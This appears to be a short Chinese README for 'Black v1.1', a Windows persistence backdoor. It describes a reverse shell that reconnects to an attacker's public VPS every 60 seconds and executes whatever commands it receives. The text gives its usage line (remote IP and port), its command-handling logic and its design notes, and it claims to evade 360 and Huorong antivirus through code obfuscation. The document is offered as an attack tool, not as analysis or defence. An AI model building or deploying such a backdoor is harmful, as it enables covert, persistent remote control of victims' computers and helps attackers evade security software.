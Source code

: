 # Windows权限维持后门、持续反弹shell，60s/1次、目前已实现最新版360、火绒免杀
Black v1.1
Usage: black.exe r_ip r_port
author: NOVASEC_黑仔
if cmd == quit:
 关闭管道，临时退出
elif cmd == exit:
 程序结束，永久退出
else:
执行命令，回显结果

##### **~开发思路：**

- S端通过socket管道来传输command给C端，C端执行，实现简易的后门控制
- 采用TCP socket、传输稳定，不掉包（可能会出现粘包，未做边界分离）
- 靶机为C端，公网VPS为S端，C端不断发起连接，以防掉线
- 混淆代码，初步免杀

